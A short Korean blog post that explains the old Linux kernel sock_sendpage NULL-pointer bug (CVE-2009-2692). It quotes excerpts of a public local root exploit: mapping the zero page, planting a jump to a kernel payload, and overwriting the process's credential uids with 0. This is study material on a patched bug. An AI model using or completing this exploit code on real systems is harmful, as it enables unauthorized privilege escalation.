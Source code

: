 ```yaml
---
layout: post
title: "sock_sendpage"
date: 2016-01-11 14:42:27 +0900
comments: true
categories: 
---
```


CVE-2009-2692, sock_sendpage 에서 벌어지는 NULL pointer deref 버그를 정리한다. 발견자가 Tarvis Ormandy 인지 Brad Spengler 인지는 이런저런 문서를 읽어봐도 잘 모르겠다.

Exploit 자체는 꽤 클래식해서 정리해놓을 가치가 있다고 생각한다.

[exploit.c](http://http://downloads.securityfocus.com/vulnerabilities/exploits/36038-5.c)

#### Exploit

```
	...
	if ((zero_page = mmap(0x00000000,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE,0,0)) == MAP_FAILED) {
		...
	}
```

0x0 에 4096 bytes 짜리 메모리 페이지를 할당한다.

그리고, payload 를 담고있는 변수의 주소를 0x00000002,0x3,0x4,0x5 에 깐다.

```
	*(char *)0x00000000 = 0xff;
	*(char *)0x00000001 = 0x25;
	*(unsigned long *)0x00000002 = (unsigned long)&kernel;
	*(char *)0x00000006 = 0xc3;
```

버그가 trigger 되면 `fp = *(unsigned long)(*(unsigned long)((0x00000000)->0x2)); (*fp)();` 하는 모양.

Kernel priv. 로 돌아가는 페이로드는 다음과 같다. cred structure 에서 uid 들을 고치는 페이로드.

```
	while (pcb_task_struct) {
		if (pcb_task_struct[0] == uid && pcb_task_struct[1] == uid &&
			pcb_task_struct[2] == uid & pcb_task_struct[3] == uid &&
			...) {
			pcb_task_struct[0] = [1] = ... = [7] = 0;
			break;
		}	
		pcb_task_struct++;
	}
```

그런데 왜 NULL porinter 를 deref 하게 되는지는 너무 오래된 버그라서 큰 의미는 없을 것 같다.
